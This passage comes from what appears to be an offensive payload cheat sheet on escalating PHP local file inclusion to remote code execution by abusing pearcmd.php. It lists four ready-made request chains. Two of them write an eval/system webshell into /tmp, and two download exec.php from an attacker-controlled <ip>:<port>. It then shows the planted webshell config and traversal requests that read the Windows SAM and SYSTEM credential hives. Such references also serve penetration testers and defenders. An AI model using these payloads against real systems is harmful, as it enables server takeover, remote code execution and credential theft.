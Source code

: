The file `pearcmd.php` uses `$_SERVER['argv']` to get its arguments. The directive `register_argc_argv` must be set to `On` in PHP configuration (`php.ini`) for this attack to work.

```ini
register_argc_argv = On
```

There are this ways to exploit it.

* Method 1: config create
  ```ps1
  /vuln.php?+config-create+/&file=/usr/local/lib/php/pearcmd.php&/<?=eval($_GET['cmd'])?>+/tmp/exec.php
  /vuln.php?file=/tmp/exec.php&cmd=phpinfo();die();
  ```
* Method 2: man_dir
  ```ps1
  /vuln.php?file=/usr/local/lib/php/pearcmd.php&+-c+/tmp/exec.php+-d+man_dir=<?echo(system($_GET['c']));?>+-s+
  /vuln.php?file=/tmp/exec.php&c=id
  ```
  The created configuration file contains the webshell.
  ```php
  #PEAR_Config 0.9
  a:2:{s:10:"__channels";a:2:{s:12:"pecl.php.net";a:0:{}s:5:"__uri";a:0:{}}s:7:"man_dir";s:29:"<?echo(system($_GET['c']));?>";}
  ```

* Method 3: download
  
  Need external network connection.
  ```ps1
  /vuln.php?file=/usr/local/lib/php/pearcmd.php&+download+http://<ip>:<port>/exec.php
  /vuln.php?file=exec.php&c=id
  ```
* Method 4: install
  
  Need external network connection.
  
  Notice that `exec.php` locates at `/tmp/pear/download/exec.php`.
  ```ps1
  /vuln.php?file=/usr/local/lib/php/pearcmd.php&+install+http://<ip>:<port>/exec.php
  /vuln.php?file=/tmp/pear/download/exec.php&c=id
  ```


## LFI to RCE via credentials files

This method require high privileges inside the application in order to read the sensitive files.


### Windows version

First extract `sam` and `system` files.

```powershell
http://example.com/index.php?page=../../../../../../WINDOWS/repair/sam
http://example.com/index.php?page=../../../../../../WINDOWS/repair/system
```
